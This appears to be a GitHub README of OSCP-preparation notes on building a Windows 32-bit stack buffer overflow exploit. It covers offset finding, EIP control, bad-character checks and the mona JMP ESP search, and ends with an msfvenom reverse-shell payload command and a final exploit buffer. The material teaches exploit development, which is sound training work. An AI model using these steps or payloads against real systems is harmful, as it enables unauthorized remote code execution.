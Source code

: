 # Win32-Buffer-Overflow
 Notes and scripts for a basic windows 32-bit buffer overflow exploit development. Aimed for OSCP preparation.

## Contents

[Introduction](README.md#Introduction)

[tl;dr](README.md#tl;dr)

[Global Steps](README.md#Global-Steps)

[Methodology](README.md#Methodology)

# Introduction

## First some basics!

**Some basic understanding of buffer overflow can be found [here](https://www.youtube.com/watch?v=1S0aBV-Waeo).**

The x86 architecture does contain 8 general registers that are used to store data and then can address that point to other positions in the memory.

* EBP (base pointer)
* ESP (stack pointer)
* EAX (accumulator)
* EBX (base)
* ECX (counter)
* EDX (data)
* EDI (destination index)
* ESI (source index)

**EIP**: Extended Instruction Pointer. This is a read-only register and does contain the address of the next instruction to be executed (tells the CPU what to do next).

**ESP**: Extended Stack Pointer. Points to the top of the stack (at any time) at the lower memory location.

**EBP**: Extended Base Stack Pointer. Points to higher address (last item) at the bottom of the stack.

**JMP**: In the x86 assembly language, the JMP instruction performs an unconditional jump. Such an instruction transfers the flow of execution by changing the instruction pointer register. 

This should give a good idea about "what" and "why" of **JMP-ESP** [here](https://security.stackexchange.com/questions/157478/why-jmp-esp-instead-of-directly-jumping-into-the-stack). The OPCODE for JMP ESP is \xff\xe4 (in assembly). 
* * *


# tl;dr

**Steps:**
- [ ] Find offset
- [ ] Ensure control over EIP at found offset (4 B’s)
- [ ] Find bad characters
- [ ] Find return address (JMP ESP)
- [ ] Ensure EIP overwrite (Breakpoint - F2 - at return address )
- [ ] Ensure buffer length for shellcode is good enough
- [ ] Get a shell

# Global-Steps

*Note: These steps are a reminder of the global Windows buffer overflow and are not intended to be a manual :)*

**Step 1**: fuzz till crash and note EIP is overwritten by A's (x41).

**Step 2**: use pattern_create.rb to generate unique string and send it to target
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700`

**Step 3**: identify 4 bytes that overwrite EIP (this is in HEX)

**Step 4**: use pattern_offset.rb to calculate the offset of these specific 4 bytes
`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2700 -q 39694438`

**Step 5**: send new buffer string to check if we can control the EIP register, since it should be written over with B's. Add to exploit and notice the result of the ESP and EIP registers:
`buffer = "A" * 2606 + "B" * 4 + "C" * 90`

**Step 6**: check if more space within buffer is available (increase buffer length from 2700 to 3500 bytes and see if this results in a larger buffer space for our shellcode). Fire up “morespace.py” -> right click ESP -> follow in dump. Add to exploit and check for C's:
`buffer = "A" * 2606 + "B" * 4 + "C" * (3500 – 2606 - 4)`

**Step 7**: check for bad chars (0x00 to 0xff). Paste all these chars within buffer and check where ESP register dump is truncated (p. 161). Right click ESP and follow in dump to see.
`Notice skipped chars!`

**Step 8**: if we can't jump directly to our buffer, we need to find a reliable address in memory that contains an instruction such as JMP ESP. We could jump to it, and in turn end up at the address pointed to, by the ESP register, at the time of the jump. This would be a reliable indirect way to reacht the memory indicated by ESP register. mona.py can help identify modules in memory that we can search for return address (no DEP and ASLR should be present and high memory range that doesn't contain bad chars)
`!mona modules`
*Check if not being affected by any memory protection schemes (Rebase, SafeSEH, ASLR, NXCompat) and note the specific DLL (right column).*

**Step 9**: JMP ESP equivalent = opcode.
```
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp esp
00000000  FFE4              jmp esp
```
*Note result as: "\xff\xe4"*

**Step 10**: use mona to find the JMP ESP memory address within the DLL found in step 8. Use one which does not contain any bad chars.
`!mona find -s "\xff\xe4" -m <dllname>.dll`

**Step 11**: pause Immunity Debugger and follow the address (black arrow pointing to right: "Expression to follow"). Note if the JMP ESP is found (pane left above).

**Step 12**: set a breakpoint to check if we can reach the JMP ESP.
*left upper pane -> right click -> go to expression
left upper pane -> right click -> breakpoint -> toggle (F2)
play and do the following:
Add to PoC (the memory address is the one we found in step 10, noted Little Endian):*
`buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390`
*Run PoC and check if breakpoint is hit (message at the bottom of Immunity Debugger).*

**Step 13**: generate reverse shell
`msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"`

**Step 14**: add the reverse shell code to the exploit and change to:
`buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode`
*Increase NOP slide if needed*

* * *

# Methodology

[1. Connection](1_Connection.md)

[2. Fuzzing](2_Fuzzing.md)

[3. Getting Offset](3_Getting-Offset.md)

[4. Controlling EIP](4_Controlling-EIP.md)

[5. Badcharacters](5_Badchars.md)

[6. Finding JMP Pointer](6_Finding-JMP-Pointer.md)

[7. JMP ESP](7_JMP-ESP.md)

[8. Obtaining a Shell](8_Shell.md)

* * *


